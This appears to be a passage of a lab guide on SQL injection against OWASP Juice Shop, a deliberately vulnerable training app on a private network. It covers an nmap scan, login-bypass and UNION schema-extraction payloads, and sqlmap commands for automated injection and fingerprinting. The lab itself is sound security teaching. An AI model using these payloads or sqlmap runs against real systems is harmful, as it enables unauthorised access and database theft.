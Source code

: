 1. Network scan for Juice Shop: `nmap -p 3000 192.168.1.0/24`
2. Verify application access: Browse to `http://192.168.1.100:3000`
3. Confirm Juice Shop welcome page and login functionality

### Task 2: Manual SQL Injection Testing

**Step 2: Login Page Analysis**

1. Navigate to login page: `http://192.168.1.100:3000/#/login`
2. Examine login form parameters (email, password)
3. Test for basic input validation

**Step 3: Authentication Bypass Attempts**

**Activity 1: Comment-Based Injection**

1. **Payload:** `admin@juice-sh.op'--`
2. **Password:** `anything`
3. **Expected Result:** Successful login bypassing password check
4. **Explanation:** Double dash comments out password validation in SQL query

**Activity 2: Boolean-Based Injection**

1. **Payload:** `' OR 1=1--`
2. **Password:** `test`
3. **Purpose:** Test if application is vulnerable to basic OR injection

**Activity 3: Union-Based Information Gathering**

1. **Payload:** `' UNION SELECT sql FROM sqlite_master--`
2. **Purpose:** Extract database schema information
3. **Target:** Identify table structures and column names

### Task 3: Automated SQL Injection with SQLMap

**Step 4: SQLMap Configuration**

1. Start Burp Suite proxy
2. Configure browser to use Burp proxy (127.0.0.1:8080)
3. Capture a legitimate login request

**Step 5: Initial SQLMap Scan**

```bash
sqlmap -u "http://192.168.1.100:3000/rest/user/login" \
       --data="email=test@test.com&password=test" \
       --method=POST \
       --level=5 \
       --risk=3 \
       --batch
```

**Activity 4: Database Fingerprinting**

- Command: `sqlmap -u "http://192.168.1.100:3000/rest/user/login" --data="email=test&password=test" --fingerprint`
- Purpose: Identify database type and version
